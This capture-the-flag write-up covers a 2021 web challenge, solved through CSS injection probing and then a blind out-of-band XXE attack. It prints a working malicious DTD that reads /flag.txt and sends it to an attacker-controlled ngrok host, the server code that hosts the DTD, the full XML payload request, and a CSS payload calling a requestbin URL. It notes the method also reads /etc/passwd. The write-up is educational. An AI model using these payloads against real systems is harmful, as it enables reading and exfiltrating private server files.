

# Special Order pt2

This was part of the 0x41414141 CTF in January 2021.


http://45.134.3.200:5000/

You are presented with a login page:


However, you need to register first:


So, you can register and then login.  It complains if you register with an already-used username.

Tried sql injection in both registration and login but did not find anything.

Once logged in you get a cookie:

Set-Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoic2FtIn0.YBILYA.L8G4dg475vg9lISHQfAy5FhcY8Q; HttpOnly; Path=/

First part is base64 which decodes to:

{"logged_in":true,"username":"sam"}

This is a digitally signed cookie.  From experience, the 2nd part is an integer and the third is a hash of the first part, the integer, and some secret.  Since we cannot guess the secret we can't forge a new session cookie.

However, it is worth noting since, in some past CTF challenges, there ends up being some way to obtain this secret. (but that won't be the case here)

Once you are logged in you see some already-existing posts created by "Admin":


When you click CREATE A POST:

http://45.134.3.200:5000/create-post



You can enter a Title and Body and SUBMIT and it'll get added to the page of posts.

I tried template injection using {{2+2}} in both the username, title, and body with no results.


If it had been vulnerable, the {{2+2}} would've rendered as 4.

You can click on an individual post you created and go to a post details page driven by an **id** query string parameter:

http://45.134.3.200:5000/post?id=57


This is a potential place to probe.  I tried various id values to see if SQL injection worked but got nothing.

Also tried various other things like `../etc/passwd`.

Noticed that you could do `?id=57.0` and it still rendered the page.  That strongly suggests something on the server is parsing it as an integer.

If  you click on POST SETTINGS:

http://45.134.3.200:5000/customize


You can select a color and fontsize from dropdowns and then click SUBMIT.

Using Burp Suite to spy on the traffic, I saw it make this POST when I submitted:

```
POST /customize HTTP/1.1
Host: 45.134.3.200:5000
Content-Length: 33
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/json
Origin: http://45.134.3.200:5000
Referer: http://45.134.3.200:5000/customize
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoie3syKzJ9fSJ9.YBINAw.B-hIgmKbkbww7o2r4tOW_m-ZJBI
Connection: close


{"color" : "red", "size": "20px"}
```

And the response was:

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 28 Jan 2021 01:10:42 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 7
Connection: close
Vary: Cookie


DONE :D
```

Afte refreshing the page, I saw the post titles change to red!

How exactly was it pulling that off?

Hunting in the page source, I saw it include this CSS resource:

http://45.134.3.200:5000/css/clean-blog.css

and my settings somehow surfaced at the botom of the file:

```
.btn-lg {
  font-size: 16px;
  padding: 25px 35px;
}

.fadeIn.second {
  -webkit-animation-delay: 0.6s;
  -moz-animation-delay: 0.6s;
  animation-delay: 0.6s;
  margin-top: 20%;
}


* {
    font-size: 20px;
    color: red;
    }
 ```

Interesting!

I'd never studied CSS injection but did some googling and found some CTF writeups where you did exactly this to find the flag.

However, in those cases, there was a "bot" on the server that visited your post and thus your CSS injection would have a shot at extracting some information from the page.

Using Burp Repeater, I was easily able to hand-edit the JSON to send in any **color** and **font-size** values I wanted.

Of course, I tried SQL Injection and Template injection but with no results.

I thought there "might" be a bot on the server visitng every post you made.  If so, we could find out by obtaining a temporary request.bin URL and injecting into the CSS a construct that would cause the bot's browser to make a GET to our URL:

```
{ "size": "300px",
"color" : "test;
}
* {background: url('http://requestbin.net/r/83nvw1q5')"}
```

Here, the **color** value has a closing brace that "finishes" the CSS selector.  It then adds a new selector with a url() construct.

It ends up looking like this in the CSS:

http://45.134.3.200:5000/css/clean-blog.css

```
* {
    font-size: 20px;
    color: test;
  }
* {background: url('http://requestbin.net/r/83nvw1q5')
    }
```

Indeed when I refresh MY own page, requestbin shows a "hit" from my own IP address.

However after creating server new posts, I did not get any more HITs.

So, that convinced me there was **not** a bot running behind the scenes.

What else to try?

I checked my CTF notes which has various lessons I've learned form past CTFs.

One item said that anywhere **application/json** was accepted, try to switch to XML and see what happens.

The JSON we're POSTing with the color and font-size could alternatively be encoded in XML so I hand-crafted in Burp Repeater this:

```
POST /customize HTTP/1.1
Host: 45.134.3.200:5000
Content-Length: 56
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: text/xml
Origin: http://45.134.3.200:5000
Referer: http://45.134.3.200:5000/customize
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoic2FtIn0.YBM4RA.uNSKnfomEGCilO3Sq8GZhlnR53I
Connection: close


<root>
 <size>10</size>
 <color>red</color>
</root>
```

Notice that I changed the **Content-Type** header to **text/xml**.

I got back this response:

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 29 Jan 2021 01:39:10 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Vary: Cookie
Content-Length: 73


Sorry but this functionality has been disabeled due to recent intrustions
```

INTERESTING!

Remember how this challenge name has "pt 2" in it?

I bet "pt 1" allowed you to POST XML and you could use XXE (XML External Entity) to read files like /flag.txt.

In fact, you could probably get the contents of /flag.txt to show up in the CSS file as the "value" of the color property.

You can google for XXE exploits and learn more about it.  Here's a good place to start:

https://portswigger.net/web-security/xxe

So, this challenge is preventing that exploit so we won't be able to read /flag.txt in that CSS file.

What can we try now?

One useful technique to always try is to force an error and see what happens.

Since XML is a very rigid syntax, it is pretty easy to make a mistake on purpose:

```
<root>
 <size>10</size>
 <color>red</color>
```

Here I left off the root closing element.

When I POSTed this, I got back an error about line 4 missing the closing tag!

That proved to me that it was *trying* to parse the XML.

When the XML is legal, the parsing completes without error and *then* it tells you:

```
Sorry but this functionality has been disabeled due to recent intrustions
```

The fact that we get to see the parsing error message is very important.  It is sometimes possible to surface secret information in such error message.

Here is a place to look for some advanced XXE exploits:

https://gist.github.com/staaldraad/01415b990939494879b4

There are no explantions there so you'll want to read here to try to understand them:

https://portswigger.net/web-security/xxe/blind

For the exploit I wanted to try, I needed to host a malicous DTD on a server I control.

Personally, I use a nodejs Express local web server on my laptop and then expose it to the Internet using **ngrok**.

You can go to:

https://ngrok.com

and get a free account and learn more about it.

This writeup alone won't be enough to teach you about nodejs and Express but you can google for more information.

Roughly, I have a folder with these files in it:

* run.js
* mal.dtd


[run.js]
```
let express = require('express');
let app = express();

app.get('/mal.dtd', function(req, res) {
    res.sendFile(__dirname + '/mal.dtd')
});

let port = 5050;
let server = app.listen(port);
console.log('Local server running on port: ' + port);
```

[mal.dtd]
```
<!ENTITY % data SYSTEM "file:///flag.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://55619db0af68.ngrok.io/mal?%data;'>">
```

You can read more at the above XXE links but the **exfil** entity is designed to make a GET request to my ngrok URL (more on that later) with the contents of `/flag.txt` as part of the query string.

I can run this with:

```
node run.js
```

and it'll start waiting for incoming HTTP requests on port 5050 for the `mal.dtd` resource.

However, this is just on my laptop and, so far, is not exposed to the Internet.

That's where ngrok comes in.

Once you have an ngrok account and have downloaded/installed their software you can do this:

```
ngrok http http://localhost:5050
```

```
ngrok by @inconshreveable                                                                                                                                            (Ctrl+C to quit)

Session Status                online
Account                       <my-account> (Plan: Free)
Version                       2.3.35
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://55619db0af68.ngrok.io -> http://localhost:5050
Forwarding                    https://55619db0af68.ngrok.io -> http://localhost:5050

```

Once this is running, anyone on the Internet that goes to:

http://55619db0af68.ngrok.io/mal.dtd

will end up hitting my local web server and getting back whatever is in my mal.dtd file.

This tool is a must have for some CTF challenges like this one.

Armed with that infrastructure in place, I can now POST a very carefully crafted XML payload:

```
POST /customize HTTP/1.1
Host: 45.134.3.200:5000
Content-Length: 199
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: text/xml
Origin: http://45.134.3.200:5000
Referer: http://45.134.3.200:5000/customize
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoic2FtIn0.YBM4RA.uNSKnfomEGCilO3Sq8GZhlnR53I
Connection: close


<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://55619db0af68.ngrok.io/mal.dtd">
%sp;
%param1;
]>
<root>
 <size>&exfil;</size>
 <color>red</color>
</root>
```

I won't be able to explain it as well as the XXE sites above do but this payload will cause their XML parser to make a GET request to my `mal.dtd` file.

It'll then parse the DTD constructs that it gets back.

Later, when it is parsing the body, it'll run into the &exfil; entity reference and it'll notice that `mal.dtd` had a definition for that.

That should cause it to make another GET request to my nodejs web server with the flag as part of the query string.

The ngrok utility allows you to easily see all the requests that come to your site so if it makes such a request, we'll see the full url and it should contain the flag in the query string.

That is the theory.

However, in practice, when I made the above POST...

I did get a GET request from their server for my `/mal.dtd`.  Good!

But I did not then get a second request with the flag in the query string.

Instead I got back the following HTTP response:

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 29 Jan 2021 02:51:17 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Vary: Cookie
Content-Length: 109


Invalid URI: http://55619db0af68.ngrok.io/?flag{i7_1s_n0t_s0_bl1nd3721}
, line 6, column 9 (<string>, line 6)
```

Yay!  So, not what I was expecting but the error message gives us the flag.

Nice!

By playing around with this technique, you can also read things like `/etc/passwd`, `/proc/self/cmdline`, etc..


